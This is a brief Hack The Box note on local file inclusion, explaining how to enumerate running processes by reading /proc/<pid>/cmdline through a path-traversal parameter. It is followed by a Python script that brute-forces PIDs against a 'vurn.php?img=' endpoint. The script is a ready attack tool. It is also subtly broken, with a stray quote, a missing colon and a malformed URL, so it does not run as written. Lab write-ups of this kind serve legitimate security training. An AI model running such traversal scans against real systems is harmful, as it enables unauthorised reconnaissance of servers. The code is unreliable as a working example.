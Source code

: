 ### Hack The Box - LFI - enumuration over /proc

Whilst the path can change for local file inclusion the majority of the time its the same files your interested in.

/proc/<<number>>/cmdline - this path can be very helpful wehn you havnt yest got terminal access to a box, it may be possible to see whats processes are running on the box with local file inclusion if the vurnrability exists on the box.
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
